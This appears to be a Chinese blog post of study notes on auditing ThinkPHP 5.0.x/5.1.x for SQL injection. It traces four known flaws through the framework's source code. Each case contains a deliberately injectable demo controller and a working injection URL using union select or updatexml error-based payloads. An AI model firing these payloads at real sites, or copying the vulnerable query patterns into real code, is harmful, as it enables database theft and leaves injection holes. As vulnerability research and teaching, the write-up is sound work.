


title: ThinkPHP 代码审计学习记录
date: 2022-12-29 19:30:56
tags:
categories:
官方不认为是漏洞，因在特定模式 exp 下执行 SQL 语句，未经任何过滤处理导致注入
ThinkPHP5 全版本
需要开启 Debug 页面
拉取项目
composer create-project --prefer-dist topthink/think=5.0.10 thinkphp_5.0.10
修改 composer.json 文件的 require 字段设置成如下，然后再执行 composer update
"require": {
"php": ">=5.4.0",
"topthink/framework": "5.0.10"
},
修改 application/index/controller/Index.php 文件内容
<?php
namespace app\index\controller;
class Index
{
public function index()
{
$username = request()->get('username');
$result = db('users')->where('username', 'exp', $username)->select();
return 'select success';
}
}
创建 users 表
create database tpdemo;
use tpdemo;
create table users(
id int primary key auto_increment,
username varchar(50) not null
);
insert into users(id,username) values(1,'admin');
根据相关内容修改 database.php 文件
在 config.php 文件中开启 app_debug 和 app_app_trace
http://127.0.0.1/thinkphp/public/index.php/index/index/index?username=)%20union%20select%20updatexml(1,concat(0x7e,user(),0x7e),1)%23
打断点开始调试，首先进入 get() 方法，在 thinkphp/library/think/Request.php 中
get() 方法中对传入的 $name 进行判断，如果是数组则在第 673 行处合并后输出，进入 input() 方法

input() 方法对参数 $name 分为 / 和 . 两种情况进行处理

当判断参数 $data 不是数组时，进入 filterValue() 方法

继续跟进，进入 filterExp() 方法

使用正则过滤查询关键字，然后在参数 $value 后加上空格，最后再返回数据回到 application/index/controller/Index.php 文件中

先进入 where() 方法，在 thinkphp/library/think/db/Query.php 中

where 部分经过 parseWhereExp() 方法处理后返回，继续调用 select() 方法
在 select() 方法中，重点在第 2306 行处生成 SQL 查询语句， $options 参数的生成在第 2286 行，通过 parseExpress() 函数分析表达式获取到表名信息、where 查询后的内容

继续跟进 ，调用 BUilder 类中 select() 方法，文件在 thinkphp/library/think/db/Builder.php

在 select() 方法中，程序会对 SQL 语句模板用变量填充，其中用来填充 %WHERE% 的变量中存在用户输入的数据，跟进 parseWhere() 方法

使用 buildWhere() 方法生成查询条件 SQL 语句，继续跟进该方法

跟进 parseWhereItem() 方法查看 where子单元分析
当操作符为 exp 时，会将来自用户的数据直接拼接进为 SQL 语句，导致产生 SQL注入漏洞，所以此时的语句为
( `username` ) union select updatexml(1,concat(0x7e,user(),0x7e),1)# )
回到 Builder 类中的 select() 方法，组合成完整的 SQL 语句
SELECT * FROM `users` WHERE ( `username` ) union select updatexml(1,concat(0x7e,user(),0x7e),1)# )
最后返回到 Query 类中 select() 方法调用 query() 执行查询
漏洞存在于 Mysql 类的 parseWhereItem 方法中，由于程序没有对数据进行很好的过滤，直接将数据拼接进 SQL 语句。Request 类的 filterExp 方法漏过滤 NOT LIKE 关键字，最终导致 SQL注入漏洞 的产生。该注入影响小于 5.0.10 版本，高版本已经将 NOT LIKE 添加到 filterExp() 方法中进行过滤。
拉取项目
composer create-project --prefer-dist topthink/think=5.0.10 thinkphp_5.0.10
修改 composer.json 文件的 require 字段设置成如下，然后再执行 composer update
"require": {
"php": ">=5.4.0",
"topthink/framework": "5.0.10"
},
修改 application/index/controller/Index.php 文件内容
<?php
namespace app\index\controller;
class Index
{
public function index()
{
$username = request()->get('username/a');
$result = db('users')->where(['username' => $username])->select();
var_dump($result);
}
}
创建 users 表
create database tpdemo;
use tpdemo;
create table users(
id int primary key auto_increment,
username varchar(50) not null
);
insert into users(id,username) values(1,'admin');
根据相关内容修改 database.php 文件
http://127.0.0.1/thinkphp/public/index.php/index/index/index?username[0]=not%20like&username[1][0]=%%&username[1][1]=aa&username[2]=)%20union%20select%201,user()%23
打断点开始调试，先进入到 thinkphp/library/think/Request.php 中的 get() 方法中
判断 $name 参数类型，继续进入 input() 方法中

在 input() 方法中，因为这次是数组数据，判断 $data 类型后进入 if 语句中
使用 array_walk_recursive() 函数对 $data 中内容进行过滤，进入 filterValue() 方法
继续进入 filterExp() 中，查看有哪些过滤字符

使用正则过滤，有对 NOTLIKE 进行过滤，但是忽略了 NOT LIKE ，回到 application/index/controller/Index.php 文件
先调用 Query 类中的 where() 方法，然后通过 parseWhereExp() 分析查询表达式

最后返回 index.php 并继续调用 select() 方法构建 SQL 语句

继续跟进 ，调用 BUilder 类中 select() 方法，文件在 thinkphp/library/think/db/Builder.php
在 select() 方法中，程序会对 SQL 语句模板用变量填充，其中用来填充 %WHERE% 的变量存在用户输入的数据，跟进 parseWhere() 方法

数据传入 buildWhere() 方法，继续跟进，生成查询表达式 SQL 语句
跟进 parseWhereItem() 方法，对 where子单元分析
第 305 行使用 list() 获取 $val 中的值，分别赋值给 $exp = $val[0] = NOT LIKE 和 $value = $val[1] = array('%%', 'aa') ，当程序走到第 357 行判断 $exp 的值是否为 NOT LIKE 。由于在 Request 类中的 filterExp() 方法忽略掉对 NOT LIKE 的过滤，导致用户输入的内容可控，进入该 elseif() 分支中
$value 为数组，进入 if 分支，在第 363 行判断是否存在 $val[2] ，如果存在则赋值给 $logic ，即
$logic = ") union select 1,user()#"
然后在 364 行处使用 implode() 将 $array 和 $logic 组合为字符串返回给 $whereStr
$whereStr = "(`username` NOT LIKE '%%' ) UNION SELECT 1,USER()# `username` NOT LIKE 'aa')"
最终 Builder 类中 select() 方法生成的完整查询 SQL 语句为
$sql = "SELECT * FROM `users` WHERE (`username` NOT LIKE '%%' ) UNION SELECT 1,USER()# `username` NOT LIKE 'aa') "
最后返回到 Query 类中 select() 方法调用 query() 执行查询
拉取 ThinkPHP 5.0.9 版本，复现该漏洞，漏洞仍存在
在 thinkphp/library/think/db/Builder.php#324 处使用 in_array() 函数判断 exp 数组中是否存在 not like
实际上$exp 是检查数组的值而不是键名
所以小于 5.0.10 版本同样存在漏洞
漏洞存在于 Builder 类的 parseData 方法中。由于程序没有对数据进行很好的过滤，将数据拼接进 SQL 语句，导致 SQL注入漏洞 的产生。
拉取项目
composer create-project --prefer-dist topthink/think=5.0.15 thinkphp_5.0.15
修改 composer.json 文件的 require 字段设置成如下，然后再执行 composer update
"require": {
"php": ">=5.4.0",
"topthink/framework": "5.0.15"
}
修改 application/index/controller/Index.php 文件内容
<?php
namespace app\index\controller;
class Index
{
public function index()
{
$username = request()->get('username/a');
db('users')->insert(['username' => $username]);
return 'Update success';
}
}
创建 users 表
create database tpdemo;
use tpdemo;
create table users(
id int primary key auto_increment,
username varchar(50) not null
);
根据相关内容修改 database.php 文件，在 config.php 文件中开启 app_debug 和 app_app_trace
http://127.0.0.1/thinkphp/public/index.php/index/index/index?username[0]=inc&username[1]=updatexml(1,concat(0x7e,user(),0x7e),1)&username[2]=1
打断点开始调试
第 18 行通过 request() 助手函数的 get() 方法获取 username 数据，直接跟进第 19 行处 insert() 方法，文件位于 thinkphp/library/think/db/Query.php
第 2082 行中 parseExpress() 方法获取配置信息，在 2085 行调用 $this->builder->insert() 方法生成 $sql 语句，继续跟进 insert() 方法，文件位于 thinkphp/library/think/db/Builder.php
在第 721 行调用 parseDate() 方法处理传入的数据，跟进查看
第 101 行遍历传入的 $data 数据，将单元的值赋值给 $val 数组，跟进到第 114 行处通过 switch 判断 $val[0] 参数，在 payload 输入为 inc ，进入 inc 分支中，，跟进 parseKey() 方法
在 parseKey() 方法中，不会对传入的内容进行任何过滤，只是用来解析处理数据，传入的 $val[1] 不受影响，回到 parseDate() 中
数据拼接完后回到 insert() 方法中，在 728-736 行中替换字符串将 $data 中的数据填充到 SQL 语句中，最后在执行时出发报错注入
$sql = " INSERT INTO `users` (`username`) VALUES (updatexml(1,concat(0x7e,user(),0x7e),1)+1) "
在分析过程中，parseDate() 方法中一共存在 3 种 case 语句
理论上也可以使用 exp 和 dec 来构造 SQL 语句，但是在实际测试中发现，exp 会在 thinkphp/library/think/Request.php#filterValue 中被处理，后面增加空格，那么到 parseDate() 中不符合 case 内容，无法注入
但 dec 不受影响，所以也可以造成注入漏洞
http://tp.cn/index.php/index/index/index?username[0]=dec&username[1]=updatexml(1,concat(0x7e,user(),0x7e),1)&username[2]=1
漏洞存在于 Mysql 类的 parseArrayData 方法中由于程序没有对数据进行很好的过滤，将数据拼接进 SQL 语句，导致 SQL注入漏洞 的产生
拉取项目
composer create-project --prefer-dist topthink/think thinkphp_5.1.7
修改 composer.json 文件的 require 字段设置成如下，然后再执行 composer update
"require": {
"php": ">=5.6.0",
"topthink/framework": "5.1.7"
}
修改 application/index/controller/Index.php 文件内容
<?php
namespace app\index\controller;
class Index
{
public function index()
{
$username = request()->get('username/a');
db('users')->where(['id' => 1])->update(['username' => $username]);
return 'Update success';
}
}
创建 users 表
create database tpdemo;
use tpdemo;
create table users(
id int primary key auto_increment,
username varchar(50) not null
);
insert into users(id,username) values(1,'admin');
根据相关内容修改 config/database.php 文件，在 config/app.php 文件中开启 app_debug 和 app_app_trace
http://127.0.0.1/thinkphp/public/index.php/index/index/index?username[0]=point&username[1]=1&username[2]=updatexml(1,concat(0x7e,user(),0x7e),1)^&username[3]=0
打断点开始调试

直接进入到 update() 方法中，位于 thinkphp/library/think/db/Query.php
继续跟进进入 update() 方法，位于 thinkphp/library/think/db/Connection.php 中
直接查看 UPDATE SQL 语句生成，在 thinkphp/library/think/db/Builder.php 中 1134 行
进入 parseData() 数据分析方法中
在第 115 行处遍历 $data 赋值 $key 和 $val 参数，到第 128 行处判断 $key 是否存在 -> ，继续走到第 138 行符合判断条件。取 $val[0] 为 point 在 switch 中判断，进入 default 条件里，跟进 parseArrayData() 函数中解析数组数据，位于 thinkphp/library/think/db/builder/Mysql.php
函数中没有任何过滤，直接拼接为sql语句
$result = $fun . '(\'' . $point . '(' . $value . ')\')';
参数均可控，实际上语句为
$result = $data[2] . '(\''. $data[3].'('.$data[1].')\')';
SQL语句为
UPDATE `users` SET `username` = $data[2]('$data[3]($data[1])') WHERE `id` = :where_AND_id
填充$data
最后得到完整的 sql语句